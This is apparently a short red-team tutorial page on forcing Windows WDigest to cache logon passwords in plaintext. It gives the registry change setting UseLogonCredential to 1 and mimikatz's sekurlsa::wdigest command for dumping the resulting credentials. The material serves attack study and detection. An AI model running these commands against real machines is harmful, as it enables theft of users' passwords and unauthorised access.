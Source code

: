 # Forcing WDigest to Store Credentials in Plaintext

As part of WDigest authentication provider, Windows versions up to 8 and 2012 used to store logon credentials in memory in plaintext by default, which is no longer the case with newer  Windows versions. 

It is still possible, however, to force WDigest to store secrets in plaintext.

## Execution

Let's first make sure that wdigest is not storing credentials in plaintext on our target machine running Windows 10:

{% code title="attacker@victim" %}
```csharp
sekurlsa::wdigest
```
{% endcode %}

Note the password field is null:

![](../../.gitbook/assets/mimikatz-2.2.0-x64-oe.eo-5_13_2019-10_42_39-pm.png)

Now as an attacker, we can modify the following registry key to force the WDigest to store credentials in plaintext next time someone logs on to the target system:

{% code title="attacker@victim" %}
```csharp
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
{% endcode %}

![](../../.gitbook/assets/mimikatz-2.2.0-x64-oe.eo-5_13_2019-10_44_54-pm.png)

Say, now the victim on the target system spawned another shell:

{% code title="victim@local" %}
```csharp
runas /user:mantvydas powershell
```
{% endcode %}

Running mimikatz for wdigest credentials now reveals the plaintext password of the victim user `mantvydas`:

![](../../.gitbook/assets/wdigestdemo.gif)

## References

{% embed url="https://p16.praetorian.com/blog/mitigating-mimikatz-wdigest-cleartext-credential-theft" %}



